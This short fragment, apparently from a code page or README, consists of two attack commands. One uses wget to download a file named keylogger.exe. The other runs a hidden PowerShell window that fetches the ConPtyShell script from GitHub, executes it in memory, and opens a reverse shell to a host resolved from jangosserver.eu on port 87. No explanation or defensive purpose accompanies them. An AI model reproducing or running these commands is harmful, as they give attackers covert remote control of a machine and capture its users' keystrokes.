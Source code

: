 wget https://github.com/Jango47/reverseShell/releases/download/keylogger/keylogger.exe

powershell -WindowStyle Hidden -Command "IEX (IWR https://raw.githubusercontent.com/antonioCoco/ConPtyShell/master/Invoke-ConPtyShell.ps1 -UseBasicParsing); Invoke-ConPtyShell (Resolve-DnsName jangosserver.eu).IPAddress 87"
